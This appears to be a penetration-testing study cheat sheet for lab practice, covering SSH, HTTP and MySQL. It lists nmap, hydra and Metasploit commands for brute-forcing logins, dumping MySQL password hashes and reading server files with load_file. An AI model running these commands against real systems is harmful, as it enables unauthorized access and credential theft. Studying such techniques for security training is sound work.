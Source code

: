 ###### SSH Lesson
- `nmap 10.12.23.4 -p 22 --script ssh2-enum-algos` -- to get algo used for creating key
- `nmap 10.12.23.4 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full` -- to get ssh rsa hostkey
- `nmap 10.12.23.4 -p 22 --script ssh-auth-methods --script-args="ssh.user=<USERNAME>"` -- to check for weak authentication 
- `hydra -l <USERNAME or /path/to/user.txt> -P /path/to/password/file 10.12.23.4 <protocol> `  -- to brute force to get login details
- `nmap 10.12.23.4 --script ssh-brute --script-args userdb=/path/to/users.txt/file -p 22` -- to brute force to get login details 
- using msfconsole
	> msfconsole 
	> use auxiliary/scanner/ssh/ssh_login 
	> set RHOSTS 192.40.231.3 
	> set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt 
	> set STOP_ON_SUCCESS true 
	> set verbose true 
	> exploit


###### HTTP Lesson
- `whatweb 10.12.23.12` 
- `http 10.12.23.12` -- give http request
- `nmap 10.12.23.12 -sV -p 80 --script http-enum`
- `nmap 10.12.23.12 -sV -p 80 --script http-headers`
- `nmap 10.12.23.12 -sV -p 80 --script banner`

###### SQL Lesson
- `mysql -h 10.12.23.2 -u <USERNAME> --password=<PASSWORD>` -- default login
- `nmap 10.12.23.2 -sV -p 3306 --script mysql-dump-hashes --script-args="username='root',password=''"` -- to dumping MySql hash password
- using msfconsole 
	>msfconsole
	>use auxiliary/scanner/mysql/mysql_hashdump
	>set rhosts
	>set username root
	>set password ""
	>exploit

- `select load_file("/path/to/file")` -- this will give load the file
- `nmap 10.12.23.2 -sV -p 3306 --script=mysql-empty-password`  -- to see if there is any account that can login with empty password
- `nmap 1012.23.2 -sV -p 3306 --script=mysql-info` -- give MySql info
- `nmap 1012.23.2 -sV -p 3306 --script=mysql-users --script-args="mysqluser='<USERNAME>', mysqlpass='<PASSWORD>'"` -- to give info about users
- `nmap 1012.23.2 -sV -p 3306 --script=mysql-databases --script-args="mysqluser='<USERNAME>', mysqlpass='<PASSWORD>'"` -- to give info about databases
- `nmap 10.12.23.2 -sV -p 3306 --script=mysql-variables --script-args="mysqluser='<USERNAME>', mysqlpass='<PASSWORD>'"` -- to give info about variables
- `nmap 10.12.23.2 -sV -p 3306 --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n selib/data/mysql-cis.audit'"` -- to give audit info 
- useing msfconsole how many directory are writable
	> use auxiliary/scanner/mysql/mysql_writable_dirs 
	> set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt 
	> set RHOSTS 192.71.145.3 
	> set VERBOSE false 
	> set username root
	> set PASSWORD "" 
	> exploit

